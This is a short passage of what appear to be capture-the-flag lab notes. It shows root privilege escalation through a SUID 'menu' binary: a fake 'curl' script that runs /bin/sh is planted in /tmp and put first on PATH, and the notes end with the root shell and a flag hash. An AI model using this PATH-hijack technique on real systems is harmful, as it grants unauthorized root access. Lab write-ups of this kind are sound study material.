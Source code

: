 Running menu program
	./menu
		1. status check
		2. kernel version
		3. ifconfig
		** Enter your choice :2
		4.8.0-58-generic

So since it runs as root because of SUID and it runs programs to find these outputs then changing the filenames of sh should give us a terminal with su priv
	cd /tmp  //move to a folder with write access
	echo /bin/sh > curl  //make the contents of curl run sh as a script
	chmod 777 curl  //Give perms to the new script
	export PATH=/tmp:$PATH  //make the tmp directory part of PATH to be globally accessable
	/usr/bin/menu //run the modified menu program #1 option
		whoami
		root
		![[Pasted image 20231031021859.png]]
	flag: `177b3cd8562289f37382721c28381f02`

